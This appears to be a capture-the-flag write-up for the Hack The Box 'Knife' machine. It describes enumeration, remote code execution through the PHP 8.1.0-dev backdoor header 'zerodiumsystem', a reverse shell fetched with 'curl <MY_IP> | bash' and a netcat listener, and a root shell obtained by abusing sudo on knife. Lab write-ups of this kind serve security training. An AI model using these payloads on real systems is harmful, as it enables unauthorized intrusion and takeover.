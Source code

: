 # Knife Writeup (Hack The Box) by [yag1n3](https://github.com/yaguine)

### objetives
* user flag
* root flag

---

## Basic Enumeration

the ICMP TTL tells us that its a Linux Machine

nmap :
* p22	OpenSSH 8.2p1 Ubuntu
* p80	Apache httpd 2.4.41

### web

the main page is really plain and there isn't that much going on  
so we try to find something interesting on the headers or using the different **HTTP Verbs**  
there is a pretty interesting Header though: *X-Powered-By: PHP/8.1.0-dev*  
we google this version and there is a vulnerability that leads to RCE, thats great !!!

---

## User Flag

the way to exploit this vulnerability is by sending the following header to the server :  
`User-Agentt: zerodiumsystem('<command>');`  
we use it to get a reverse shell the following way:
* i create a file called *index.html* with a bash script that leads to a reverse shell at port 443
* i start a server on the folder where the script is stored
* i start a nc listener at port 443
* i use the RCE to execute the command `curl <MY_IP> | bash`
* the reverse shell should appear on your netcat listener

we get the User Flag at */home/james*

---

## Root Flag

with `sudo -l` we see that we can use the command `/usr/bin/knife` as root  
we type `/usr/bin/knife -h` and there is a link to the docs at [https://docs.chef.io/workstation/knife/](https://docs.chef.io/workstation/knife/)  
we search about the command and we discover that it can execute perl scripts  
we try the GTFOBins payload for sudo with Perl to get that beloved root shell  
we type `sudo /usr/bin/knife exec -E 'exec "/bin/sh"'`...and Boom !!
now we can get our well-deserved root flag !!!!!

---

## Conclusions

I believe this to be the easiest HackTheBox machine i've tried so far, even though you probably need to be aware enough to understand that there's nothing on the website and you have to check something a little bit hidden like an PHP version in a header, this machine shouldn't be a challenge for most of pentesters


